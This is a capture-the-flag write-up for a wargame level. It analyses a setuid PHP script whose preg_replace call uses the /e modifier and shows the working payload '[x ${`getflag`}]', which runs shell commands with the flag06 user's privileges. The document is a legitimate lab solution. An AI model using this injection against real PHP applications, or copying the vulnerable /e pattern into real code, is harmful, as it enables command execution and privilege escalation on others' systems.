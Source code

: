 # Level 06

## Initial Context

- Two file: `level06` and `level06.php`

## Solving the Challenge

### Analizing

```bash
$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

`level06` seems to be a PHP interpreter connected to `level06.php`.

```bash
$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

Cleaning this file, we have:

```php
<?php

function y($m)
{
    $m = preg_replace('/\./', ' x ', $m);
    $m = preg_replace('/@/', ' y', $m);
    return $m;
}

function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace('/(\[x (.*)\])/e', "y(\"\\2\")", $a);
    $a = preg_replace('/\[/', '(', $a);
    $a = preg_replace('/\]/', ')', $a);
    return $a;
}

$r = x($argv[1], $argv[2]);
print $r;

?>
```

The exploit here resides  in the usage of the [regex's E modifier, allowing code to be executed for a string replacement](https://stackoverflow.com/a/16986549/7292958).

The regex expect to match a string like: `[x <something>]`

```
.----------------- starting the regex
|.---------------- capturing 1st group
|| .-------------- litteral string "[x "
|| |  .----------- caturing 2nd group
|| |  |   .------- litteral string "]"
|| |  |   |  .---- ending of the regex
|| |  |   |  |.--- regex modifiers: e
|| |  |   |  ||
/(\[x (.*)\])/e
```

And if match is found, it will be replaced with:

```
.------ calling `y` function
|  .--- placing 2d capture group
|  | 
y("\2")
```

An example would be:

```
[x hello]  -->  y("hello")
```

So if we manage to call custom code, we will be able to execute a Linux command with the same privileges as `flag06`.

### Exploiting

Using a simple docker running a vulnerable PHP version, we can test things:

```
docker run --rm -it php:5-cli
```

We can evaluate simple expressions:

```php
php> echo preg_replace('/(.*)/e', "\\1", "1+1");
2
```

But calling methods with a string parameter seems to fail...

```php
php > echo preg_replace('/(.*)/e', "\\1", "shell_exec('id')");
Parse error: syntax error, unexpected ''id\');' (T_ENCAPSED_AND_WHITESPACE), expecting identifier (T_STRING) in php shell code(1) : regexp code on line 1

Fatal error: preg_replace(): Failed evaluating code:
shell_exec(\'id\') in php shell code on line 1
```

```php
php> echo preg_replace('/(.*)/e', "\\1", "shell_exec(\"id\")");
Parse error: syntax error, unexpected '"', expecting identifier (T_STRING) in php shell code(1) : regexp code on line 1

Fatal error: preg_replace(): Failed evaluating code:
shell_exec(\"id\") in php shell code on line 1
```

However, `shell_exec($cmd)` can be replaced using the [backtick operator](https://www.php.net/manual/en/function.shell-exec.php#:~:text=This%20function%20is%20identical%20to%20the%20backtick%20operator.).

```php
php> echo preg_replace('/(.*)/e', "\\1", "`id`");
uid=0(root) gid=0(root) groups=0(root)
```

Perfect, now we can combine it with the required string to make a match.

```bash
$ echo '[x `id`]' | ./level06 php://stdin
`id`
```

It seems to not work since we are being put between quotes. (`y("\2")`)

We can bypass that by using [string variables](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing). That mean wrapping our payload inside a `${code}`.

```bash
$ echo '[x ${`id`}]' | ./level06 php://stdin
PHP Notice:  Undefined variable: uid=3006(flag06) gid=2006(level06) groups=3006(flag06),100(users),2006(level06)
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

We are getting an error because PHP is trying to execute the output of `id`. But we are still getting the output, so its fine.

```bash
$ echo '[x ${`getflag`}]' | ./level06 php://stdin
PHP Notice:  Undefined variable: Check flag.Here is your token : ....
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Success!